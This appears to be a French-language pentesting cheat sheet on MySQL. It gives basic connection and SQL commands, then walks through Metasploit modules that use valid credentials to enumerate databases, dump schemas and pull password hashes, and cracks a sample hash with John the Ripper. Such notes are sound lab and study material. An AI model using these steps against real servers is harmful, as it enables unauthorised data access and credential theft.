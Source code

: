 # MySQL	
***RDBMS*** : Relational DataBase Management System
***SGBD*** :  System de Gestion de Base de Données  

##### Connect to MYSQL remote server
```bash
mysql -u [username] -p -h [host ip]
```
**View a .sql file (depuis mysql) /!\ il fait être dans le dosser du fichier**
```bash
source file.sql
```

## SQL CHEATSHEET :
```sql
SHOW DATABASES;
USE db_name;
SHOW TABLES;
DESCRIBE table_name;
```


## Exemple d'exploit avec metasploit
Pour cet exemple, il nous faut des credentials valides
### Test des credentials
```bash
mysql -h [IP] -u [username] -p
```

### Utilisation de MetaSploit :
(Danc l'exemple ci-dessous, la version de MySQL est vulnérable aux payloads qui suivent)
Lancer MSF :
```bash
msfconsole
```
Exploit :  
```bash
search mysql_sql
use 0
set password/rhosts/username
run
result -> 5.7.29-0ubuntu0.18.04.1
```
renvoie les noms des bases de données


```bash
search mysql_schemadump
use 0
set options
run
```
result -> all databases and columns name and type


```bash
search mysql_hashdump
use 1
set options
run
```
results -> all usernames and passwords hashes

### Crash hashes

```carl:*EA031893AA21444B170FC2162A56978B8CEECE18```
```bash
john hash.txt
```

***Les mots de passe sont très souvent réutilisés***


